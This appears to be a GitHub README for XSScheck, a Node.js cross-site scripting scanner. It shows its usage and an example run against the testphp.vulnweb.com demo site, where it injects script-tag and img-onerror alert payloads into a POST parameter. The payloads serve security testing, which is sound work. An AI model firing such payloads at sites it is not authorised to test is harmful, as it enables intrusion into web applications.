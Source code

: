 # XSScheck

XSS scanner by nodejs


## Usage

At first, make sure `phatom.js` in your PATH, then
```
node xsscheck.js
```


## Example

```
 > node xsscheck.js
 
=======> XSScheck Power By VLVK <========

[?] Select method: [G]ET or [P]OST (G/P): P
[?] Enter URL:
[?] > http://testphp.vulnweb.com/search.php?test=query
[?] Enter Parameters:
[?] > searchFor=2&goButton=go
[?] Enter location of Payloadlist (payloads.txt)
[?] >
[+] Use Default payloads...
====================
Path: http://testphp.vulnweb.com/search.php?test=query
Method: Post
Parameter: searchFor
Payload: <img src="x" onerror="alert(/xss/)">
Data: searchFor=2<img src="x" onerror="alert(/xss/)">&goButton=go
====================
====================
Path: http://testphp.vulnweb.com/search.php?test=query
Method: Post
Parameter: searchFor
Payload: <script>alert(/xss/)</script>
Data: searchFor=2<script>alert(/xss/)</script>&goButton=go
====================
```


## Todo

- [ ] concurrent_control
- [ ] 10&16hex_encode